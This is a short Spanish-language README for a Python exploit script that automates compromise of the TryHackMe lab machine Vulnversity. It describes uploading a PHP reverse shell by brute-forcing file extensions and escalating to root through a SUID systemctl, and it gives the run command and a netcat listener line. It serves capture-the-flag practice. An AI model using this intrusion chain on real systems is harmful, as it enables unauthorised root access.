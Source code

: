 # VulnUniversity-THM
### Descripcion General:
**Vulnversity_exploit.py** es un script escrito en python, que automatiza la intrusion para la Maquina Vulnversity de la plataforma [Try Hack Me](https://tryhackme.com/room/vulnversity) ganando acceso como root
- Autor:        ErickBuster
- Maquina:	Vulnversity - Try Hack Me
> Sube una reverse shell en php con fuerza bruta cambiando la extension del archivo, 
una vez subido hara una ejecucion remota de comandos aprovechandose de un SUID del servicio systemctl para escalar privilegios como root
### Ejecucion:
```
python3 Vulnversity_exploit.py -r <rhost> -l <lhost>
```
colocarse en escucha en otra terminal con netcat
```
nc -lvnp 443
```
